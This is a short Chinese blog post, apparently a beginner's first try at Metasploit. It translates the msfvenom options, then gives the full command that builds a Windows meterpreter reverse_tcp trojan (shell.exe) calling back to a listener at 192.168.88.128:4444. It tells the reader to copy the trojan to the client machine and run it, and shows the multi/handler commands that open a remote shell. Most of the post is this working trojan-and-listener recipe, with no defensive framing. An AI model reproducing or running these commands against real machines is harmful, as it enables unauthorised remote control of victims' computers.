 ```yaml
---
id: 21
title: 初尝试metasploit
date: 2017-08-11T13:17:06+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

使用msfvneom制作木马首先  
Options:  
-p, –payload 指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用’-‘或者stdin指定  
-l, –list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all  
-n, –nopsled 为payload预先指定一个NOP滑动长度  
-f, –format 指定输出格式 (使用 –help-formats 来获取msf支持的输出格式列表)  
-e, –encoder [encoder] 指定需要使用的encoder（编码器）  
-a, –arch 指定payload的目标架构  
–platform 指定payload的目标平台  
-s, –space 设定有效攻击荷载的最大长度  
-b, –bad-chars 设定规避字符集，比如: ‘\x00\xff’  
-i, –iterations 指定payload的编码次数  
-c, –add-code 指定一个附加的win32 shellcode文件  
-x, –template 指定一个自定义的可执行文件作为模板  
-k, –keep 保护模板程序的动作，注入的payload作为一个新的进程运行  
–payload-options 列举payload的标准选项  
-o, –out 保存payload  
-v, –var-name 指定一个自定义的变量，以确定输出格式  
–shellest 最小化生成payload  
-h, –help 查看帮助选项  
–help-formats 查看msf支持的输出格式列表  
这是一些翻译

在kali 2016 上运行  
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.88.128 lport=4444 -f exe -o /root/Desktop/shell.exe  
设置侦听本机 ip 和侦听端口  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/1-1-300x222.jpg" alt="" width="300" height="222" class="alignnone size-medium wp-image-22" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-300x222.jpg 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-230x170.jpg 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-350x259.jpg 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-480x355.jpg 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1.jpg 620w" sizes="(max-width: 300px) 85vw, 300px" />  
将shell木马 复制到客户机并运行  
使用msfconsole侦听  
msfconsole

use exploit/multi/handler  
set lport 4444  
exploit  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/1-2-300x151.jpg" alt="" width="300" height="151" class="alignnone size-medium wp-image-23" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-300x151.jpg 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-230x116.jpg 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-350x176.jpg 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-480x242.jpg 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2.jpg 620w" sizes="(max-width: 300px) 85vw, 300px" />  
这里和windows cmd 一样了  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/1-3-300x104.jpg" alt="" width="300" height="104" class="alignnone size-medium wp-image-24" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-300x104.jpg 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-230x80.jpg 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-350x121.jpg 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-480x166.jpg 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3.jpg 620w" sizes="(max-width: 300px) 85vw, 300px" />